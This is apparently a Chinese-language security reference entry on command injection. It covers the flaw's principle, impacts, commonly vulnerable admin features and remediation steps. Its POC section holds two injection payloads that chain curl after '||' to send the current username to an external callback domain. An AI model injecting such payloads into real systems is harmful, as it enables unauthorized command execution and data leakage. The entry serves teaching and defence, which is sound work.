 

# 漏洞原理

**命令注入（Command Injection）**漏洞是指攻击者通过**注入**恶意命令来执行非预期的操作；简单来说就是没有对用户输入的内容充分的验证或过滤，而直接带入到命令执行函数中当成系统命令被执行。



# 漏洞危害

1. 执行任意系统命令，可能导致系统被完全控制。
2. 敏感信息泄露，如密码、数据库内容等。
3. 对系统进行拒绝服务（DoS）攻击。
4. 执行恶意代码，如安装后门、植入恶意软件等。



# 常见场景

- 管理界面的配置主机名/IP/掩码/网关、查看系统信息等功能处
- 关闭、重启等功能处
- ping、nslookup等验证主机等功能处
- 提供发送邮件、转换图片等功能处
- 私钥生成
- 通过数据库执行



# POC

```shell
# Win
|| curl %USERNAME%.8f208c4a.ipv6.1433.eu.org

# Linux
|| curl `whoami`.8f208c4a.ipv6.1433.eu.org
```



# 漏洞修复

1. **输入验证和过滤：**对于从用户或外部源接收的所有输入数据，进行严格的验证和过滤。确保只允许预期的输入字符和格式，并拒绝潜在的恶意代码。
2. **权限限制：**确保应用程序在执行命令时使用最低特权。不要在命令执行中使用超级用户权限或管理员权限，以降低攻击者可能获得的权限。
3. **沙箱环境：**在可能的情况下，将应用程序或相关组件运行在沙箱环境中，以限制其对系统的访问权限。这可以帮助隔离恶意代码的影响，并提供额外的安全层。
